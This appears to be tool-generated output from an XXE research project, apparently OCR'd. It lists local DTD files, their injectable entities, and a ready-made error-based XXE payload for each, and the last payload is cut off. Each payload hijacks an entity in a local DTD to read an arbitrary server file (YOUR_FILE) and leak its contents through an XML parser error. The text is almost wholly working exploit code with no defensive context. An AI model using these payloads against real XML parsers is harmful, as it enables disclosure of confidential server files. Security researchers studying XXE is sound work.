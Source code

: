 **Injectable entity:** `machineinfo.dtd`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/perfsuite/hwpcprofilereport-0.2.dtd">

    <!ENTITY % machineinfo.dtd '
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        '>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/perfsuite/hwpcprofilereport-0.3.dtd`

**Injectable entity:** `machineinfo.dtd`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/perfsuite/hwpcprofilereport-0.3.dtd">

    <!ENTITY % machineinfo.dtd '
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        '>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/perfsuite/psmetrics.dtd`

**Injectable entity:** `expr`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/perfsuite/psmetrics.dtd">

    <!ENTITY % expr 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

```